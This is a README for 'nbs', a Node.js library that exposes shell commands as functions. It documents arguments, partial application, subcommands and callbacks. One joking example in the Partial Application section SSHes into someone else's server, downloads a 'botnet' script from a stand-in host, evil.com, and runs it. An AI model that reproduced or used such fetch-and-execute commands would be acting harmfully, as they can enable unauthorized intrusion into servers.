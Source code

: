 node-nbs
========

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `nbs`!

```javascript
var sh = require("nbs"),
    curl = sh("curl", {silent: true});
curl("http://httpbin.org/user-agent", function(err, result) {
    console.log(JSON.parse(result)["user-agent"]); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
var mkdir = sh("mkdir");
mkdir("example_directory");
```

Multiple arguments can be provided.

```javascript
mkdir("-p", "parent/child");
```

Spaces and the like are automatically escaped.

```javascript
mkdir("Some directory with spaces! Wooo! Rebellion!");
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
var myFolders = ["folderA", "folderB", "folderC"];
mkdir("-p", "-v", myFolders);
// which is the same as
mkdir.apply(null, ["-p", "-v"].concat(myFolders));
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial("-p");
mkdir("another-parent/child");
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
var mkdir = sh("mkdir", "-p");
```

Alright. That looks cool, but kinda limited in use.

```javascript
var ssh = sh("ssh"),
    definitelyMyServer = ssh.partial("notmyserver.com", "-p 1234"),
    remoteCurl = definitelyMyServer.partial("curl", "--silent");

remoteCurl("-O", "http://evil.com/evil_botnet_software.sh");
definitelyMyServer("sh", "evil_botnet_software.sh");
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
var git = sh("git").defineSubcommands("status", "add", "rm", "clone");
git.clone("https://github.com/PiPeep/node-nbs.git", "node-nbs");
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
var sudo = sh("sudo");
sudo.defineSubcommands({ls: null, git: ["status", "add", "rm"], echo: null});
sudo.git.add("important_file.txt");
```

#### ES6 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The next version of JS adds [object Proxies][]. These allow us to intercept
accesses to an underlying object. If you enable proxies by passing
`--harmony-proxies` or `--harmony` to `node`, then you can use some alternate
syntax. Eventually this proposed language feature should be enabled by default
in future versions of node.

  [object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
sh.ssh["pipeep@b.enjam.info"].git.rm("important_file.txt");
```

Take *that*, ES5!

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
var _s = require("underscore.string"),
    ls = sh("ls", "-1");
ls(function(err, result) {
    if(err) {
        throw err; // Oh my god! Something horrible must have happened!
    }
    console.log(_s.strip(result).split("\n"));
});
// ["another_parent", "example_directory", ... ]
```

**Warning:** All calls resulting in shell execution are asynchronous, so there's
no way to catch errors or control execution flow without a callback.

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with CoffeeScript syntax.

```coffeescript
ls = sh "ls"
ls "-1", all: true, recursive: false, (err, res) ->
    console.log res
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCode`: A number or array of numbers representing valid exit codes.
    Defaults to `0`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`nbs` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted on
GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!

`nbs` would be called `sh`, but that name [was already taken by another project
with some similar goals.](http://shjs.tuton.fr/) It's worth checking out too
(although *my* project is *clearly* better). `nbs`'s name is derived from `sh`'s
former name, `pbs`.
